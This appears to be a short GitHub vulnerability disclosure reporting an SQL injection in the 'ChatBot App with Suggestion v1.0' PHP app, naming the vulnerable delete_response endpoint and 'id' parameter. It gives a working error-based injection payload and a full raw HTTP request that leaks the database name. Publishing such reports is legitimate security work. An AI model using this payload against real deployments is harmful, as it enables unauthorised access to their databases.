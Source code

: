 # ChatBot App with Suggestion v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15316/chatbot-app-suggestion-phpoop-free-source-code.html

Vulnerability File: /simple_chat_bot/classes/Master.php?f=delete_response

Vulnerability location: /simple_chat_bot/classes/Master.php?f=delete_response, id

[+] Payload: id=8' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+ // Leak place ---> id

```sql
POST /simple_chat_bot/classes/Master.php?f=delete_response HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.19/simple_chat_bot/admin/?page=responses
Content-Length: 65
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close

id=8' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+
```

![image](https://user-images.githubusercontent.com/54017627/170820027-64477459-2dfa-4bd1-a6ed-d46c33f5632c.png)
